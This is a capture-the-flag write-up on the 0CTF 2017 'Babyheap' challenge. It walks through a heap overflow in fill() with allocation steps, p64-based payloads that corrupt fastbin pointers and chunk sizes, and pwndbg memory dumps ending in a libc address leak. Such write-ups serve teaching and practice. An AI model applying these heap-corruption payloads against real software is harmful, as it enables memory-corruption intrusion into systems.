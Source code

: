 ## 0CTF 2017 - Babyheap

This is another basic heap challenge from the 0CTF which I use some different way to leak the address(That's what we always need for a heap challenge)!

**Requirements**

- Find the vulnerability(heap overflow in `fill()` function)
- Leak the libc address.
- Calculat the offset of the libc base address.
- Find the place to put the one_gadget address.
- Trigger!

### 1. Leak the address in the libc

As a heap challenge with a given libc.so, what we allways need to do is too leak the address from the libc and calculate the offset to find the base address of libc. This is also same with this challenge from 0CTF. 

From [how2heap](https://github.com/shellphish/how2heap), this challenge is under `fastbin_dup_into_stack` which is the tech we gone use to leak the address from the heap. **But, at first, I must explain why we need to leak the address this way.** When the fastbin link list only has one chunk, there's no address will be set in the `FD` and `BK` because top of the free list of fastbin will be store in the `main_arena`. So, in this case, we need to cheat the `malloc()` to return a allocated small bin size chunk as a fastbin size chunk. After we get two pointers which both point to one chunk, we can free the small bin one and it will set the `FD` and `BK` for us. That's the thing we want to leak. 

First, we need to allocate five chunks(first three are fastbin size and other two are smallbin size). The reason why we need to allocate two small bins is that if we only allocate one, when we free it, it will consolidate with the top chunk.

```
alloc(0x10) #Index 0	<- Fastbin
alloc(0x10) #Index 1	<- Fastbin
alloc(0x10) #Index 2	<- Fastbin
alloc(0x80) #Index 3	<- Small bin
alloc(0x80) #Index 4	<- Small bin
```

```
0x557c24bb9000:	0x0000000000000000	0x0000000000000021 <- Index 0
0x557c24bb9010:	0x0000000000000000	0x0000000000000000 <- 0's content
0x557c24bb9020:	0x0000000000000000	0x0000000000000021 <- Index 1
0x557c24bb9030:	0x0000000000000000	0x0000000000000000 <- 1's content
0x557c24bb9040:	0x0000000000000000	0x0000000000000021 <- Index 2 0x557c24bb9050:	0x0000000000000000	0x0000000000000000 <- 2's content
0x557c24bb9060:	0x0000000000000000	0x0000000000000091 <- Index 3
0x557c24bb9070:	0x0000000000000000	0x0000000000000000 <- 3's content
...
0x557c24bb90e0:	0x0000000000000000	0x0000000000000000
0x557c24bb90f0:	0x0000000000000000	0x0000000000000091 <- Index 4
0x557c24bb9100:	0x0000000000000000	0x0000000000000000 <- 4's content
0x557c24bb9110:	0x0000000000000000	0x0000000000000000
...
0x557c24bb9170:	0x0000000000000000	0x0000000000000000
```

Then, we will free the 2nd chunk then the 1st chunck(Index). This will give us a free list and in the 1st chunk, we can see the address of the 2nd chunk.

```
free(2)
free(1)
```

```
fastbins
0x20: 0x560c20963020 —▸ 0x560c20963040 ◂— 0x0
0x30: 0x0
Address layout in GDB: 
pwndbg> x/40gx 0x560c20963000
0x560c20963000:	0x0000000000000000	0x0000000000000021 <- Index 0
0x560c20963010:	0x0000000000000000	0x0000000000000000
0x560c20963020:	0x0000000000000000	0x0000000000000021 <- Index 1 free
0x560c20963030:	0x0000560c20963040	0x0000000000000000 <- The address of the next free chunk in the free list
0x560c20963040:	0x0000000000000000	0x0000000000000021 <- Index 2 free
0x560c20963050:	0x0000000000000000	0x0000000000000000
0x560c20963060:	0x0000000000000000	0x0000000000000091 <- Index 3
```

#### Fastbin attack

Third, because the `0x560c20963060` is the address of the 3rd chunk(Index) which is a small chunk, we need to cheat `malloc()` to allocate that chunk for us. What we gonne do is to `fill()` the 0th chunk and overflow the address in the free list from `0x560c20963040` to `0x560c20963060`. Then if we allocate same size memory from the fastbin, we can get `0x560c20963060` instead of `0x560c20963040`.

```
payload = p64(0) * 3
payload += p64(0x21)
payload += p8(0x60)
fill(payload, 0)
alloc(0x10) #Index 1
```

```
fastbins
0x20: 0x55bab90d3060 ◂— 0x0 (Compare with the above linklist, 0x40 change to 0x60)
```

For now, we get the 1st(Index) chunk from the heap but we want to get the `0x560c20963060` as the fastbin. However, if we directly request `0x10` chunk, we cannot get the `0x560c20963060` because the size of it is `0x0000000000000091` which is `0x80`(-header). So, we need to use another overflow to change `0x0000000000000091` to `0x0000000000000021`.

```
payload = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x21)
fill(payload, 1)
alloc(0x10) #Index 2 (All the payload is for this, we want a fastbin)
```
```
0x56058fc0b000:	0x0000000000000000	0x0000000000000021 <- Index 0
0x56058fc0b010:	0x0000000000000000	0x0000000000000000
0x56058fc0b020:	0x0000000000000000	0x0000000000000021 <- Index 1
0x56058fc0b030:	0x0000000000000000	0x0000000000000000
0x56058fc0b040:	0x0000000000000000	0x0000000000000021 <- Index 2 free
0x56058fc0b050:	0x0000000000000000	0x0000000000000000
0x56058fc0b060:	0x0000000000000000	0x0000000000000021 <- Index 3 & 2 (Used to be 91)
Index 3 is the smallbin(0x80), and index 2 is the fastbin(0x10)
...
0x56058fc0b0e0:	0x0000000000000000	0x0000000000000000
0x56058fc0b0f0:	0x0000000000000000	0x0000000000000091 <- Index 4
0x56058fc0b100:	0x0000000000000000	0x0000000000000000
...
0x56058fc0b160:	0x0000000000000000	0x0000000000000000
```

Aha, now we get two pointer point to same chunk. So, we can free the small bin one to return it to the unsorted bin. The libc will set the `FD` and `BK` for us. But, again we still need to control the size of the bin. This time, because we want the chunk to be a smallbin, we need to set the size back to `0x80` at first. Then! `Dump(2)`.(As a fastbin)

```
payload = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x91)
fill(payload, 1)
free(3)
hex(dump(2))
```
```
0x56220cde1000:	0x0000000000000000	0x0000000000000021 <- Index 0
0x56220cde1010:	0x0000000000000000	0x0000000000000000
0x56220cde1020:	0x0000000000000000	0x0000000000000021 <- Index 1
0x56220cde1030:	0x0000000000000000	0x0000000000000000
0x56220cde1040:	0x0000000000000000	0x0000000000000021 <- Index 2 free
0x56220cde1050:	0x0000000000000000	0x0000000000000000
0x56220cde1060:	0x0000000000000000	0x0000000000000091 <- Index 3 & 2 free
0x56220cde1070:	0x00007fc036f48b78	0x00007fc036f48b78 <- That's what we want!!!!
...
0x56220cde10e0:	0x0000000000000000	0x0000000000000000
0x56220cde10f0:	0x0000000000000090	0x0000000000000090 <- Index 4(P is not set)
0x56220cde1100:	0x0000000000000000	0x0000000000000000
...
0x56220cde1170:	0x0000000000000000	0x0000000000000000
```